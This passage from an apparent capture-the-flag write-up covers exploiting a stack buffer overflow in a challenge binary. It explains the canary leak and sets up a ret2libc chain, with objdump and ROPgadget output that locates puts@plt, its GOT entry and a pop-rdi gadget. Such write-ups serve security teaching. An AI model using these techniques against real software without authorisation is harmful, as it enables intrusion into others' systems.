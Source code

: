 and when we look at what the stack canary is in gdb, we can see that we indeed have the correct stack canary. However when we leaked the canary, we did overwrite the least signifant byte (the null byte) with a newline character. Luckily for us, the the stack check happens when we exit the program (choose option three) since the menu just runs in a loop without calling sub functions with a stack canary check we need to worry about.

So now that we have a buffer overflow vuln that we can reach the return address, and the stack canary, we are able to get RCE. However we still need to figure out what to do with it. Looking at the list of imported functions in IDA we don't see system, however we can see `puts`. What we might be able to do is call `puts` with the GOT table address of puts, so it will print out the current address of puts in memory. With that we might be able to calculate the address of `system` and `/bin/sh` and call them. First we need to find the plt address of `puts`.

```
$	objdump -d svc | grep puts@plt
  4008a6:	74 05                	je     4008ad <puts@plt-0x23>
00000000004008c0 <puts@plt-0x10>:
00000000004008d0 <puts@plt>:
  4008db:	e9 e0 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  4008eb:	e9 d0 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  4008fb:	e9 c0 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40090b:	e9 b0 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40091b:	e9 a0 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40092b:	e9 90 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40093b:	e9 80 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40094b:	e9 70 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40095b:	e9 60 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40096b:	e9 50 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40097b:	e9 40 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  40098b:	e9 30 ff ff ff       	jmpq   4008c0 <puts@plt-0x10>
  400d74:	e8 57 fb ff ff       	callq  4008d0 <puts@plt>
  400e6c:	e8 27 fa ff ff       	callq  400898 <puts@plt-0x38>
```

So we can see that the address that we need to call puts is `0x4008d0`. The next thing we need is the `GOT` address of puts, which should contain the libc address of puts when we print it:

```
	objdump -R svc | grep puts
0000000000602018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```

So the `GOT` address of puts is `0x602018`. The last piece that we need in order to call puts is a ROP gadget which will pop the argument for puts (a pointer to the libc address of `puts`), and call the plt address of `puts`:

```
$ python ROPgadget.py --binary svc | grep pop
0x00000000004009fc : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000004009fe : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004009ed : je 0x400a08 ; pop rbp ; mov edi, 0x602088 ; jmp rax
0x0000000000400a3b : je 0x400a50 ; pop rbp ; mov edi, 0x602088 ; jmp rax
0x00000000004009f8 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400a45 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400e9c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400e9e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400ea0 : pop r14 ; pop r15 ; ret
0x0000000000400ea2 : pop r15 ; ret
0x0000000000400a62 : pop rbp ; mov byte ptr [rip + 0x20188e], 1 ; ret
0x00000000004009ef : pop rbp ; mov edi, 0x602088 ; jmp rax
0x0000000000400e9b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400e9f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400a00 : pop rbp ; ret
0x0000000000400ea3 : pop rdi ; ret
0x0000000000400ea1 : pop rsi ; pop r15 ; ret
0x0000000000400e9d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```